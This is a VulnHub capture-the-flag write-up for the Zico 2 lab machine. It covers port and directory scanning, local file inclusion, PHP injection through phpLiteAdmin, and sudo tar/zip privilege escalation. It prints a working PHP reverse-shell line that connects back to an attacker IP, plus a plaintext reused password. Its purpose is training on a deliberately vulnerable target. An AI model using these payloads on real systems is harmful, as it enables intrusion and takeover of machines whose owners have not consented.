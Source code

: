 ```yaml
---
title: "VulnHub: Zico 2"
date: "2020-09-20"
author: frosty
categories:
  - "writeups"
tags:
  - "vulnhub"
---
```


Zico 2 is rated as an intermediate level box created by [@rafasantos5](https://twitter.com/rafasantos5) posted on [VulnHub](https://www.vulnhub.com/entry/zico2-1,210/). This writeup will detail the steps that I have tried and used to get root access of the target host.

The scenario is that Zico tried to build a website, but wasn't sure exactly how they wanted to do it. In the end, they tried to build their own. Let's see if that was a good idea.

## Enumeration

Naturally, we need to find the IP address of the target host. We'll use `netdiscover` for this. The output of netdiscover shows the IP address of the target host, which we then scan using nmap. The nmap command here just tries to find open ports with the `-p-` flag. We can do more detailed scans after we know the open ports.

```sh
$ sudo netdiscover -r 10.0.2.0/24 -i eth0
10.0.2.12

$ nmap -p- 10.0.2.12
```

![Image](/assets/img/writeups/vulnhub/zico2/image-32.png)

Interesting that we see port `111` and `44249` in addition to the typical `22` and `80` ports. Using the nmap `-A` flag, we try to get some more information out of these.

```sh
$ nmap -p 22,80,111,44249 -A 172.20.1.11
```

![Image](/assets/img/writeups/vulnhub/zico2/image-33.png)

It seems that both of these ports are RPC ports. For now, let's go into HTTP enumeration - after all, Zico built the website on their own...

* * *

### Enumeration: HTTP

The first thing to do would be to navigate to the home page, and have a quick browse. We see that they opened their own shop. It looks like it's still in the development phase. Nevertheless, when scrolling down we see an interesting button to "check out the tools". Why is it interesting? The link seems to have some sort of parameter to load pages `?page=tools.html`

![Image](/assets/img/writeups/vulnhub/zico2/image-34-1024x609.png)

![Image](/assets/img/writeups/vulnhub/zico2/image-35.png)

So we see that tools.html is loaded as the value of parameter `?page=`. Perhaps the web application takes in the parameter and loads the `tools.html` - so I am wondering if this parameter is vulnerable to local file inclusion. We can test it by trying to load the `/etc/passwd`. This is a good one to try because it is standard on all Linux boxes, and it resides outside of the website files. And we see in the screenshot below that the parameter indeed is vulnerable to local file inclusion. I also tried to see if we could exploit this parameter for remote file inclusion but it seems that the parameter was not vulnerable - the requests were not reaching my HTTP server.

![Image](/assets/img/writeups/vulnhub/zico2/image-36-1024x188.png)

Anyways, it seems that we have otherwise exhausted our paths for the website. There is no `/robots.txt` file which could have led us to some other paths. So lets use Gobuster for some automated scanning to find some other endpoints which we might be able to visit.

```sh
$ gobuster dir -w /usr/share/wordlists/dirb/commmon.txt -u http://10.0.2.12/
```

![Image](/assets/img/writeups/vulnhub/zico2/image-37.png)

The first thing that strikes me as interesting would be the `/dbadmin` endpoint, which ends up being a directory which contains a file `/test_db.php` which hosts phpLiteAdmin v1.9.3! It is password protected, but our trusty `admin` password attempt works a treat in this case.

![Image](/assets/img/writeups/vulnhub/zico2/image-38.png)

I have actually seen phpLiteAdmin before when I was studying for my OSCP, so I may know the route to get an initial shell. Nevertheless, we need to test if it will work.

It seems that Zico has not setup phpLiteAdmin -> the default database `test_users` is still present. We see in the admin panel that it is located at `/usr/databases/test_users`. So let's remember that we have LFI on the server. If we can craft a new database with some PHP code, then we should be able to execute it through our LFI vulnerable path. Let's try it!

* * *

## Getting the initial shell

![Image](/assets/img/writeups/vulnhub/zico2/image-39.png)

Thanks to the login page of the admin panel, we see the version of phpLiteAdmin. There is an exploit seen in the [Exploit-DB](https://www.exploit-db.com/exploits/24044). Let's follow the steps!

1. Create a DB named `hack.php`.
2. Create a new table with `<?php phpinfo() ?>`
3. Execute hack.php

![Image](/assets/img/writeups/vulnhub/zico2/image-40.png)

![Image](/assets/img/writeups/vulnhub/zico2/image-41-1024x397.png)

Boom! We have code execution! Alright! Let's try and change this so that we can get a shell of some sort.

Let's edit the `<?php phpinfo() ?>` code to:

```php
<?php $sock = fsockopen("10.0.2.10",1234); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```

![Image](/assets/img/writeups/vulnhub/zico2/image-42.png)

![Image](/assets/img/writeups/vulnhub/zico2/image-43.png)

* * *

## Privilege escalation

As we saw in the /etc/passwd LFI exploit earlier, we know that there is a Zico user on the host. When inspecting their home directory, we see that there are incorrect permissions set - the files are globally readable and executable

![Image](/assets/img/writeups/vulnhub/zico2/image-45.png)

We see a `to_do.txt` file in their home directory, let's take a look. Zico still wants to try Joomla, bootstrap (+phpliteadmin) and wordpress. Right now what I'm looking for could be some password which Zico may have reused.

![Image](/assets/img/writeups/vulnhub/zico2/image-46.png)

It seems that Joomla wasn't set up at all/ or I couldn't find a password inside there. However, we see a `wp-config.php` in the Wordpress directory. This one has a password stored:

```
sWfCsfJSPV9H3AmQzw8
```

![Image](/assets/img/writeups/vulnhub/zico2/image-47.png)

![Image](/assets/img/writeups/vulnhub/zico2/image-48.png)

* * *

## Privilege Escalation

Of course as we already searched the home directory of Zico, I think that it is unlikely that we will find a root password in there. In any case, it's always good for us to execute `sudo -l` to see what kind of other commands Zico can execute.

![Image](/assets/img/writeups/vulnhub/zico2/image-49.png)

It seems that we have two paths to get root. Zico is allowed to execute both `tar` and `zip` binaries as root, without a password. These are both GTFO binaries, so it should be relatively quick to get the root shell.

### Tar Privilege Escalation

We'll use [this](https://gtfobins.github.io/gtfobins/tar/) resource.

```sh
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![Image](/assets/img/writeups/vulnhub/zico2/image-50.png)

### Zip Privilege Escalation

We'll use [this](https://gtfobins.github.io/gtfobins/zip/) resource.

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
#
```

![Image](/assets/img/writeups/vulnhub/zico2/image-51.png)
